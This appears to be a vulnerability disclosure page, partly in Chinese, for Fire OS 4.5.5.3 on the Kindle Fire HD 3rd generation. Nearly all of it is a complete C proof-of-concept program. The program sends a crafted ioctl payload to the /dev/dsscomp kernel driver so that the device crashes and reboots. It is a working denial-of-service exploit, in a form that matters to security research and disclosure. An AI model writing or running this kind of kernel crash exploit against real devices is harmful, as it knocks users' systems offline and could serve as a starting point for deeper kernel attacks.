 <languages  />

漏洞影響
--------

    Fire OS 4.5.5.3

POC
---

    /*
     * This is poc of Kindle Fire HD 3rd
     * A bug in the ioctl interface of device file /dev/dsscomp causes the system crash via IOCTL 1118064517.
     * Related buggy struct name is dsscomp_setup_dispc_data.
     * This Poc should run with permission to do ioctl on /dev/dsscomp.
     *
     */
    #include <stdio.h>
    #include <fcntl.h>
    #include <errno.h>
    #include <sys/ioctl.h>

    const static char *driver = "/dev/dsscomp";
    static command = 1118064517;

    int main(int argc, char **argv, char **env) {
        unsigned int payload[] = {
        0xffffffff,
        0x00000003,
        0x5d200040,
        0x79900008,
        0x8f5928bd,
        0x78b02422,
        0x00000000,
        0xffffffff,
        0xf4c50400,
        0x007fffff,
        0x8499f562,
        0xffff0400,
        0x001b131d,
        0x60818210,
        0x00000007,
        0xffffffff,
        0x00000000,
        0x9da9041c,
        0xcd980400,
        0x001f03f4,
        0x00000007,
        0x2a34003f,
        0x7c80d8f3,
        0x63102627,
        0xc73643a8,
        0xa28f0665,
        0x00000000,
        0x689e57b4,
        0x01ff0008,
        0x5e7324b1,
        0xae3b003f,
        0x0b174d86,
        0x00000400,
        0x21ffff37,
        0xceb367a4,
        0x00000040,
        0x00000001,
        0xec000f9e,
        0x00000001,
        0x000001ff,
        0x00000000,
        0x00000000,
        0x0000000f,
        0x0425c069,
        0x038cc3be,
        0x0000000f,
        0x00000080,
        0xe5790100,
        0x5b1bffff,
        0x0000d355,
        0x0000c685,
        0xa0070000,
        0x0010ffff,
        0x00a0ff00,
        0x00000001,
        0xff490700,
        0x0832ad03,
        0x00000006,
        0x00000002,
        0x00000001,
        0x81f871c0,
        0x738019cb,
        0xbf47ffff,
        0x00000040,
        0x00000001,
        0x7f190f33,
        0x00000001,
        0x8295769b,
        0x0000003f,
        0x869f2295,
        0xffffffff,
        0xd673914f,
        0x05055800,
        0xed69b7d5,
        0x00000000,
        0x0107ebbd,
        0xd214af8d,
        0xffff4a93,
        0x26450008,
        0x58df0000,
        0xd16db084,
        0x03ff30dd,
        0x00000001,
        0x209aff3b,
        0xe7850800,
        0x00000002,
        0x30da815c,
        0x426f5105,
        0x0de109d7,
        0x2c1a65fc,
        0xfcb3d75f,
        0x00000000,
        0x00000001,
        0x8066be5b,
        0x00000002,
        0xffffffff,
        0x5cf232ec,
        0x680d1469,
        0x00000001,
        0x00000020,
        0xffffffff,
        0x00000400,
        0xd1d12be8,
        0x02010200,
        0x01ffc16f,
        0xf6e237e6,
        0x007f0000,
        0x01ff08f8,
        0x000f00f9,
        0xbad07695,
        0x00000000,
        0xbaff0000,
        0x24040040,
        0x00000006,
        0x00000004,
        0x00000000,
        0xbc2e9242,
        0x009f5f08,
        0x00800000,
        0x00000000,
        0x00000001,
        0xff8800ff,
        0x00000001,
        0x00000000,
        0x000003f4,
        0x6faa8472,
        0x00000400,
        0xec857dd5,
        0x00000000,
        0x00000040,
        0xffffffff,
        0x3f004874,
        0x0000b77a,
        0xec9acb95,
        0xfacc0001,
        0xffff0001,
        0x0080ffff,
        0x3600ff03,
        0x00000001,
        0x8fff7d7f,
        0x6b87075a,
        0x00000000,
        0x41414141,
        0x41414141,
        0x41414141,
        0x41414141,
        0x001001ff,
        0x00000000,
        0x00000001,
        0xff1f0512,
        0x00000001,
        0x51e32167,
        0xc18c55cc,
        0x00000000,
        0xffffffff,
        0xb4aaf12b,
        0x86edfdbd,
        0x00000010,
        0x0000003f,
        0xabff7b00,
        0xffff9ea3,
        0xb28e0040,
        0x000fffff,
        0x458603f4,
        0xffff007f,
        0xa9030f02,
        0x00000001,
        0x002cffff,
        0x9e00cdff,
        0x00000004,
        0x41414141,
        0x41414141,
        0x41414141,
        0x41414141 };

            int fd = 0;
            fd = open(driver, O_RDWR);
            if (fd < 0) {
                printf("Failed to open %s, with errno %d\n", driver, errno);
                system("echo 1 > /data/local/tmp/log");
                return -1;
            }

            printf("Try open %s with command 0x%x.\n", driver, command);
            printf("System will crash and reboot.\n");
            if(ioctl(fd, command, &payload) < 0) {
                printf("Allocation of structs failed, %d\n", errno);
                system("echo 2 > /data/local/tmp/log");
                return -1;
            }
            close(fd);
            return 0;
    }